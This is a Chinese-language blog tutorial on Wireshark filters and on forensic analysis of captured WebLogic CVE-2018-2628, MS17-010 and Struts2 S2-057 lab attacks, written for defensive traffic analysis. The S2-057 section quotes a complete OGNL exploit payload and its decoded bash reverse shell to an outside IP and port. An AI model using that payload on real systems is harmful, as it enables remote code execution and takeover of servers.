最近在HW，主要工作就是判断各个设备日志，分析数据包，对wireshark数据包分析不太熟悉，特此学习记录一下。本想再对主流扫描器和webshell管理工具抓包分析，但碍于篇幅和自己时间问题，没有再深入下去。这里主要挑选了weblogic反序列化，ms17_010，struts s2-057数据包进行实列分析。希望文章能对给位师傅有所帮助，文章中可能有很多不足和错误之处，还望各位师傅包含。


# 1.wireshark抓包

## 1.1选择监听网卡

捕获-->选项



我这里要查看我wlan的流量，所以选择wlan。

## 1.2 显示面板介绍



**数据包列表**：

不同的协议会显示不同的颜色，方便区分。


**数据包详细信息**：

frame:物理层的数据帧概况

ethernet:数据链路层以太网帧头部信息

internet protocol version 4:互联网层ip包头部信息

transmission control protocol：传输层T的数据段头部信息，此处是tcp

hypertext transfer protocol：应用层的信息，此处是http协议


**16进制数据：**

点击数据包详细信息数据区域的数据，在16进制数据区域中会显示对应的数据。个人理解数据包详细信息区是wireshark处理之后方便我们查看的数据包，而16进制数据包区域是实际在网络中传输的数据包。




# 2.过滤条件介绍

## 2.1协议过滤

tcp，icmp，http，udp...

单独输入只显示对应的协议数据包列表，列如：输入http




## 2.2 ip过滤

 ip.src==120.241.148.154 显示源地址为120.241.148.154 的数据包列表

  ip.dst==120.241.148.154 , 显示目标地址为120.241.148.154 的数据包列表

  ip.addr == 120.241.148.154 显示源IP地址或目标IP地址为120.241.148.154的数据包列表




## 2.3 端口过滤

 tcp.port ==80, 显示源主机或者目的主机端口为80的数据包列表。

 tcp.srcport == 80, 只显示TCP协议的源主机端口为80的数据包列表。

 tcp.dstport == 80，只显示TCP协议的目的主机端口为80的数据包列表。




## 2.4 http模式过滤

http.request.method=="GET"，只显示HTTP GET方法

http.request.method=="POST"




## 2.5 逻辑运算符 and/or/not

http.request.method=="POST" and ip.src==192.168.71.249

只显示192.168.71.249发送的post数据。




## 2.6 固定特征检索


选中要cookie（可以选择为恶意的payload）右击，作为过滤器应用-->选中

则只会显示cookie为选择值的数据包。




# 3.实列

## 3.1 Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）

docker搭建cve-2018-2628靶机，wireshar保存数据包分析。

docker地址：https://vulhub.org/#/environments/weblogic/CVE-2018-2628/

#### 3.1.1查看恶意ip和受害ip的数据通信

```shell
ip.src==192.168.80.1 and ip.dst==192.168.80.4
```




#### 3.1.2 依次查看数据包

发现192.168.80.1想192.168.80.4发送了很多个2798长度的数据包，将数据包内容复制出来查看


鼠标右键点击数据包内容，选择 as printable text即可将数据包内容复制到剪切板，将数据包复制到文本编辑器查看



ysoserial.jar，touch /tmp/h11ba1.txt 可以大致确定攻击者使用了ysoserial工具进行了反序列化攻击，准备在服务器执行"touch /tmp/h11ba1.txt"命令。


## 3.2 ms17-010

### 3.2.1 确定攻击是否发生

```shell
ip.addr==192.168.80.4 and ip.addr==192.168.80.8 and smb
```

因为ms17-010主要通过smb端口，所以先看smb协议



发现192.168.80.4这个ip向192.168.80.8发送了大量的A字节。推测在进行溢出操作。所以确定发送ms17_010攻击


### 3.2.2 确定是否成功

继续查看数据包，发现数据包中含有session setup and request数据包，并且数据包中含有被攻击机器的准确域信息，说明攻击成功。




### 3.2.3 确定攻击者执行了那些命令

```shell
ip.addr==192.168.80.4 and ip.addr==192.168.80.8 and tcp
```

分析192.168.80.4与192.168.80.8之间传输的所有tcp数据流

从上往下依次查看，发现，被标黑的数据包中含有cmd命令行，重点查看标黑的数据流。并且可以确定攻击者通过4444端口来接收受害者的shell。




依次往下面查看，发现受害者192.168.80.8向攻击者192.168.80.4发送了自己的盘符信息。此时可以确定攻击者拥有了受害者cmd控制权。




依次往后面查看，发现攻击者执行了，whoami,ipconfig /all，net user /domain，dir等命令。并且受害者返回执行结果




鼠标右键点击--->选择as printable text，将数据包提取出来，复制到sublime中可以更清晰的查看




## 3.3 Struts2 S2-057 Remote Code Execution Vulnerablity(CVE-2018-11776)

struts s2-057主要通过GET请求发起攻击，只查看GET请求的数据

```shell
http.request.method=="GET"
```



### 3.3.1 poc验证漏洞

攻击者先采用poc:

```shell
/$%7B(111+111)%7D/actionChain1.action
```

探测是否存在struts s2-057漏洞，跟踪http流查看漏洞是否存在

 


表达式执行成功，说明该漏洞存在，接下来查看攻击者利用该漏洞做了什么

### 3.3.2 查看攻击者利用漏洞做了什么

查看最后一个http流，发现存在bash字样，跟踪http流查看




payload url解码：

```shell
/struts2-showcase/${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwNi4xNC4xOTAuOTMvMjMzMyAwPiYxCg==}|{base64,-d}|{bash,-i}')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}/actionChain1.action
```

发现攻击者在尝试反弹shell

paylaod中的base64字符串解码得到：

```shell
bash -i >&/dev/tcp/106.14.190.93/2333 0>&1
```

说明攻击者想将shell反弹到106.14.190.93的2333端口


### 3.3.3 查看攻击者是否拿到shell，并执行了那些操作

已经确定反弹shell的vps，那么直接查看与该ip的数据流

```shell
ip.addr==106.14.190.93
```



发现数据中存在服务器名，跟踪tcp流，发现攻击者执行了ls命令，并且执行成功。




参考链接：

https://www.cnblogs.com/linyfeng/p/9496126.html


